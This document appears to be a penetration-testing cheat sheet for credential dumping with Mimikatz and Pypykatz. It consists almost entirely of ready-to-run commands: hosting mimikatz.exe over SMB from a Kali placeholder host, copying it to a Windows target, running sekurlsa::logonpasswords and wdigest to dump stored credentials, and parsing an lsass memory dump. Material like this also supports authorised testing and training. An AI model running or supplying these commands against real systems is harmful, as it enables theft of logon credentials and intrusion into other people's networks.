 # Mimikatz

## Mimikatz

Locate
```
$ locate mimikatz.exe
/usr/share/windows-resources/mimikatz/Win32/mimikatz.exe
/usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

Host mimikatz
```
cd /usr/share/windows-resources/mimikatz/
impacket-smbserver share $(pwd) -smb2support
```


Copy to Target - x86
```
xcopy \\<Kali IP>\share\Win32\mimikatz.exe C:\Temp\mimikatz\
```

Copy to Target - x64
```
xcopy \\<Kali IP>\share\x64\mimikatz.exe C:\Temp\mimikatz\
```


All available creds
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::logonpasswords" exit
```

Only `wdigest`
```
cd C:\Temp\mimikatz\
C:\Temp\mimikatz\mimikatz.exe "privilege::debug" "log sekurlsa.log" "sekurlsa::wdigest" exit
```





## Pypykatz

Get secrets from memory dump
```
pypykatz lsa minidump --grep lsass.DMP
```